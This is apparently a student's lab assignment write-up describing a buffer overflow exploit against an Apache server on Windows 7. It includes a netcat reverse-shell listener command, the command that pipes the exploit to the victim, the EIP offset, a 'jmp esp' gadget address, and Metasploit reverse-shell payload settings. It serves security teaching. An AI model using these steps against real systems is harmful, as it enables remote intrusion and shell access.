 # Assignment 2 Documentation

### Written By: Chuck Zumbaugh
### Collaborators: None

## Running the exploit
The exploit is configured to generate a reverse shell for a listener on port 8888 at 192.168.219.134. To run the exploit, ensure the attacking machine is listening on the appropriate port:
```
nc -l -p 8888 -nvv
```
Then the exploit can be run by piping the executed script to the victim machine Apache server:
```
perl exploit_apache.pl | nc <victim_address> 80
```
*Note that the Apache server is listening on port 80.*

## Objective and description of the exploit
The objective of this exploit is to execute a buffer overflow attack on a Windows machine running an Apache web server. The Windows machine supports ASLR, and in particular randomizes the addresses of the stack, so we cannot rely on knowing the stack addresses in advance. Therefore, we use a return to libc attack to redirect execution to an area on the stack containing our code. Rather than placing the shell code at a known address above the EIP, it will be placed just after the saved EIP. The EIP will be overwritten by the address of a `jmp esp` instruction, which when executed, will begin executing the malicious code.

## Determining the length of the buffer
The length of the buffer was determined by sending a string of sufficient length to the Apache server to crash it and gather debug data. Metasploit was used to generate a string of 5,000 bytes using `msf-pattern_create -l 5000`. The WinDbg debugger was attached to the Apache process and the string was sent to the server, causing a segmentation fault. When this occurred the EIP was 67463467, which corresponds to an offset of 4,093 bytes. Thus, if we send a string of length 4,097 bytes we can overwrite the EIP with the last 4 bytes.

## Finding a `jmp esp` instruction
Modules loaded by Apache were searched for a `jmp esp` instruction in WinDbg using `s <start_address> L? <length_to_search> ff e4`. Since Windows 7 supports ASLR, only modules without ASLR or DEP were searched. A `jmp esp` instruction was found in `mod_w1_20` at location `0x1005bc0f`, which does not contain any null bytes and can thus be used in the payload.

## Generating the payload
Metasploit was used to generate shell code for a reverse shell using `payload/windows/shell_reverse_tcp` with the `x86/alpha_mixed` encoder, `LHOST=192.168.219.134`, and `LPORT=8888`. A NOP sled was used to cover the length of the offset, though since we are not redirecting execution here, any non-null byte sequence would work. The address of the `jmp esp` instruction was placed to overwrite the EIP, and this was followed by a small NOP sled of 20 bytes. This smaller NOP sled is used because 1) the caller will clear the arguments after the function returns so we cannot place the shell code directly after the EIP, and 2) to make the exploit more reliable when it is run by providing a small margin or error. To prevent the decoder from corrupting itself during execution, we also place an instruction to add -200 to the current ESP, effectively moving it out of the way of the payload. Finally, the payload is placed just after this instruction. Thus, the stack is set up in a manner similar to the below figure.

|                                     |                                   |
| :---------------------------------: | :-------------------------------: |
| Lower memory addresses              |                                   |
| ...                                 | NOP sled (4,093 bytes)            |
| EIP                                 | `\x0f\xbc\x05\x10` (`jmp esp` address) |                  |
| EIP + 4                             | `\x90`                              |
| ...                                 | `\x90`                              |
| EIP + 20                            | `\x90`                              |
| EIP + 24                            | `\x81\xc4\x38\xff\xff\xff` (`add -200, esp`) |          |
| ...                                 | Shellcode                         |
| Higher memory addresses             |                                   |

![Running the exploit](./running_exploit.png)

![Obtaining a reverse shell](./reverse_shell.png)

